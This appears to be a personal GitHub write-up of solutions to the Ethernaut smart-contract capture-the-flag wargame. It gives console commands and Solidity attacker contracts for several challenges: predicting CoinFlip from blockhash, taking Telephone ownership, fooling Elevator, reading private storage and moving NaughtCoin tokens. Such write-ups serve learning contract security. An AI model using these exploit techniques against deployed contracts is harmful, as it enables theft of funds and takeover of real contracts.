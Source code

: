 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

### challenge 15

create smartcontract and give it the allowance for all tokens. then run the attacker contract below.

```
contract Attacker {
    function attack(address _address) public {
        address me =    0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;
        address other = 0xEd6715D2172BFd50C2DBF608615c2AB497904803;
        NaughtCoin nc = NaughtCoin(_address);
        nc.transferFrom(me, other, nc.balanceOf(me));
    }
}
```
